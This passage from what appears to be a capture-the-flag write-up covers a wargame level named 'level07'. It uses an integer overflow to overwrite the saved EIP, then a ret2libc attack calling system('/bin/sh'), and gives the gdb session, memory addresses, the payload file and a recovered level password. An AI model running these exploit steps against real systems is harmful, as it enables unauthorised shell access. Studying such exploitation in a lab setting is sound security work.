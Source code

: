 
To overcome this, we can use alternatives like **`2 * (UINT_MAX / 4) + 114` to overflow back to `114`** without actually using the number. As we can see, we have successfully overwritten the EIP with our desired value.

```
cat << EOF > /tmp/level07
store
286331153
2147483762
store
572662306
2147483764
quit
EOF

gdb ./level07
b *0x80486ce
b *0x80488ef
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```

```
Breakpoint 2, 0x080488ef in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x80488ef in main; saved eip 0x11111111
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
  ```

Since we are able to ovewrite the address now, we should be able to overwrite it to an address which points to shellcode. We will be trying ret2libc for this. We needed the address for the `system()` function as well as `/bin/sh`. These information should be available in GDB. The address of `system()` is `0xf7e6aed0` and the address for "/bin/sh" is `0xf7f897ec` 

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

We can generate our payload like so and able to retreive the password `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`
```
cat << EOF > /tmp/level07
store
4159090384
2147483762
store
4160264172
2147483764
quit
EOF

(cat /tmp/level07 ; cat) | ./level07
```
